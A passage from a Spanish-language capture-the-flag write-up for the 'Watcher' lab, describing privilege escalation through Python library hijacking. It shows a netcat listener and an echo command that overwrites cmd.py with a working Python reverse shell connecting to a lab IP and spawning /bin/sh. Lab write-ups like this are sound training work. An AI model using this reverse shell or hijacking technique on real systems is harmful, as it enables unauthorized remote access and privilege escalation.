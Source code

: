~~~cs
~~~

## Flag 6 -> <https://book.hacktricks.xyz/linux-unix/privilege-escalation#python-library-hijacking>

6.1 con el comando **"sudo -l"** se observa que el usuario **"will"** puede ejecutar como sudo el siguiente script en python:

![flag6](/assets/images/thm-writeup-watcher/watcher_flag6.png)

6.2 En la siguiente imagen se observa el contenido del script:

![flag6](/assets/images/thm-writeup-watcher/watcher_flag6_1.png)

- Revisando el código se observa qu este realiza el llamado a **"cmd.py"** ecript que se encuentra en el mismo directorio como se ve en la siguiente imagen:

![flag6](/assets/images/thm-writeup-watcher/watcher_flag6_2.png)

6.3 En una nueva terminal (No. 2), nos ponemos en escucha con **"nc"** en el puerto 6666
  
~~~cs
nc -nlvp 6666
~~~

6.4 Con la información recolectada desde la terminal No. 1, procedemos a inyectar en el script **"cmd.py"** la siguiente reverse shell en **"python"** de acuerdo con la información de la siguiente página: <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python>:

~~~go

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.68",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])' > cmd.py

~~~
